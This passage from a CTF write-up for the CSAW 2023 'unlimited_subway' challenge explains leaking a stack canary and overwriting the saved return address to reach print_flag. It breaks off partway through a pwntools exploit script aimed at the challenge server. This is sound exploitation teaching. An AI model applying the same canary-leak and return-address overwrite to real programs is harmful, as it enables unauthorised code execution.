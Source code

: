 Then I just sent 64 junk bytes and the `canary` value. This doesn't crash the program, because in the program's pov the `canary` was never changed. 

![stack layout](/assets/csaw23/pwn/unlimited_subway/stack_layout.png)

*[Image Credit](https://bananamafia.dev/post/binary-canary-bruteforce/)*

We can see in this image that after the `canary` there is the saved base pointer or the saved `ebp` which is 4 bytes. 
So we write 4 more junk bytes after the `canary`, and then the address of `print_flag` in the saved `eip`.

When the program returns, it will call the `print_flag` function, and we will get the flag:

Final payload:
```py
from pwn import *
context.binary = binary = ELF('./unlimited_subway')

script = '''
b *main+500
b *main+505
'''

canary = b''
canary_list = []
# p = gdb.debug('./unlimited_subway', gdbscript=script)
p = remote('pwn.csaw.io', 7900)

for i in range(128,132):
    payload = f'V\n{i}'.encode()  # seeing what is at 128th - 131st memory locations
    p.sendline(payload)
```